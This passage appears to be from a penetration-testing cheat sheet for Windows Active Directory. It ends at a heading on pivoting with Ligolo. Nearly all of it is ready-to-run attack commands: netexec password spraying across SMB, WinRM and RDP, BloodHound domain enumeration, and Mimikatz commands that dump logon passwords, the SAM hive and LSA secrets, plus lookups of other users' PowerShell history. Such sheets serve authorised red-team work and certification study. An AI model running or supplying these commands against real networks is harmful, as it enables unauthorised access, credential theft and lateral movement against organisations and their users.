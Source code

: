 #### Password Spraying
```bash
# Pass-spray for lateral movement/PE (local auth)
nxc smb domain_ips -u domain_users -p passwords --continue-on-success --local-auth | grep +

# Pass-spray for lateral movement/PE
nxc smb domain_ips -u domain_users -p passwords --continue-on-success | grep +

# Pass-spray for WinRM access
nxc winrm domain_ips -u domain_users -p passwords --continue-on-success | grep +

# Pass-spray for RDP access
nxc rdp domain_ips -u domain_users -p passwords --continue-on-success | grep +
```

#### Domain Data Collection
```bash
# Netexec
nxc ldap <dc-ip/FQDN> -u <user> -p <password> --bloodhound -c All --dns-server <dc-ip>

# Bloodhound-python
bloodhound-python -u <user> -p <password> -dc <FQDN> -c all -d <domain> -ns <dc-ip>
bloodhound-python -u <user> --hashes :<NTML> -dc <FQDN> -c all -d <domain> -ns <dc-ip>
```

### 🔎 Pillaging - Credential Dumping

#### Mimikatz Commands
```powershell
# Dump active sessions' creds
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Dump the SAM registry hive
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"

# Dump the LSA secrets
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
```

#### PowerShell History
```powershell
# Check host type
$Host.Name

# Check the PS history of the current user
(Get-PSReadlineOption).HistorySavePath

# Check the PS history of another user
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### 🖧 Pivoting with Ligolo
